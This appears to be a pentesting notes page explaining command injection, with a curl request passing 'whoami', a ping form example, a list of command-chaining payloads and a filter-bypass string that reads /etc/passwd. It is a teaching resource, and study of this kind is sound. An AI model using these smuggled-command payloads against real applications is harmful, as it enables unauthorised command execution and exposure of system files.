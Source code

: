 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Command injection

Allow to execute arbitrary system commands on a host operating system via a vulnerable application. Normally happens when a web application takes a user-supplied input and passes it directly to a shell interpreter.

We can find a typical example of this vulnerability as follows:

* When internally using functions like _system_ or _shell\_exec_ which pass input to an internal command interpreter.

{% code overflow="wrap" lineNumbers="true" fullWidth="false" %}
```bash
#We send a petition with a command
curl -X POST http://url/? -d "cmd=whoami"
#If being handled by system(), it will respond with the output of the command, letting us we can talk to the internal shell
```
{% endcode %}

***

* In some cases, the application will receive input and redirect it to an internal command executed in the server shell

{% code overflow="wrap" lineNumbers="true" %}
```bash
#A form receives the IP as input and executes the ping command
8.8.8.8
#Example output
PING 8.8.8.8 (8.8.8.8) 56(84) bytes of data.
64 bytes from 8.8.8.8: icmp_seq=1 ttl=117 time=26.4 ms
...
#Ww see that it works like the following command inside
ping $input
```
{% endcode %}

***

* We can abuse this input to add other commands using the command operators

<pre class="language-bash" data-overflow="wrap" data-line-numbers><code class="lang-bash">8.8.8.8; ls -la
<strong>8.8.8.8 &#x26; ls -la    
</strong>8.8.8.8 &#x26;&#x26; ls -la
8.8.8.8 | ls -la
8.8.8.8 || ls -la
</code></pre>

***

* Sometimes it could be sanitized to detect these symbols, so to avoid detection, we can combine operators and commands into a single string, which helps bypass filtering.

{% code overflow="wrap" lineNumbers="true" %}
```bash
8.8.8.8|cat /etc/passwd
```
{% endcode %}
